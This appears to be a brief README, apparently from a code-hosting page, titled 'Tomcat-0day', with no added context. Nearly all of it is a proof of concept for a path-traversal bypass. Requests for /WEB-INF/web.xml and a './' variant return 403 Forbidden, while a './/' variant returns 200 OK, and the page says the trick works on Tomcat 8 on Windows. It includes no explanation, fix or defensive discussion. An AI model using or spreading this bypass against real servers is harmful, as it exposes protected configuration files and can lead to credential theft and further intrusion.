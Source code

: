 # Tomcat-0day

https://x.x.x.x/WEB-INF/web.xml -> 403 Forbidden


https://x.x.x.x/./WEB-INF/web.xml -> 403 Forbidden



https://x.x.x.x/.//WEB-INF/web.xml -> 200 OK


++
Tomcat 8 on Windows...
